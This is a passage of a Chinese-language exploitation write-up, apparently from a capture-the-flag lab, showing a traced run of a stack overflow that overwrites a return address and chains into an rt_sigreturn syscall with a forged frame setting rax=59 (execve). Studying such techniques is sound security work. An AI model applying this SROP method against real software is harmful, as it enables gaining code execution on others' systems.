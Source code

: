 \documentclass[10pt,a4paper]{article}
\providecommand{\tightlist}{%
  \setlength{\itemsep}{0pt}\setlength{\parskip}{0pt}}
\begin{document}
實跑輸出（位址每次不同，這裡節錄）：

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
[0x401016 進入 leak]     rsp=0x7fffffffdf18
[0x401017 push rsp 之後] rsp=0x7fffffffdf10   [rsp]=0x7fffffffdf18
[0x401032 pop rax 之後]  rsp=0x7fffffffdf18   rax=0x7fffffffdf18
[0x40104f 進入 vuln]     rsp=0x7fffffffdf18   [rsp]=0x40100a
[0x401054 之後 rsi]      rsi=0x7fffffffde98
[0x401069 syscall]       rsp=0x7fffffffdf18   rax=0
[0x40106b ret 前]        rsp=0x7fffffffdf18   [rsp]=0x40104f   ← 已被我們的 payload 蓋掉
[0x40104f 進入 vuln]     rsp=0x7fffffffdf20   [rsp]=0x401069
[0x401054 之後 rsi]      rsi=0x7fffffffdea0                     ← 比上面多 0x08
[0x401069 syscall]       rsp=0x7fffffffdf20   rax=0
[0x40106b ret 前]        rsp=0x7fffffffdf20   [rsp]=0x401069
[0x401069 syscall]       rsp=0x7fffffffdf28   rax=15           ← rax=15 就是 rt_sigreturn
[0x401069 syscall]       rsp=0x4141414141414141   rax=59       ← frame 裡設的 rsp 與 rax
\end{Verbatim}

怎麼讀這份輸出：

\begin{itemize}
\tightlist
\item
  \texttt{0x401069} 被命中 \textbf{4 次}：vuln 的第一次 read、被
  \texttt{ret} 跳回來的第二次 read、 \texttt{rax=15} 的
  \texttt{rt\_\allowbreak{}sigreturn}、以及 sigreturn 還原後又跳回
  \texttt{rip=0x401069} 的那次 （最後那次 \texttt{rsp} 會變成 frame
  裡設定的值，本範例是 \texttt{0x4141414141414141}）。
\item
  \texttt{{[}0x40104f\ \allowbreak{}進入\ \allowbreak{}vuln{]}} 的 \texttt{{[}rsp{]}} 是
  \texttt{0x40100a}（第二次是 \texttt{0x401069}）------ 那是
  \texttt{call\ \allowbreak{}vuln} 壓進去的返回位址。
\item
  \texttt{{[}0x40106b\ \allowbreak{}ret\ \allowbreak{}前{]}} 的 \texttt{{[}rsp{]}}
  就是\textbf{返回位址那一格}：餵了溢位 payload 之後它變成我們寫的
  \texttt{0x40104f}（「溢位成功」的證據）。想看到原始值
  \texttt{0x40100a}，就把輸入縮成 24 bytes （\texttt{read} 回傳
  0，不覆蓋）。
\end{itemize}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsubsection{4. 漏洞總結}\label{ux6f0fux6d1eux7e3dux7d50}
\end{document}
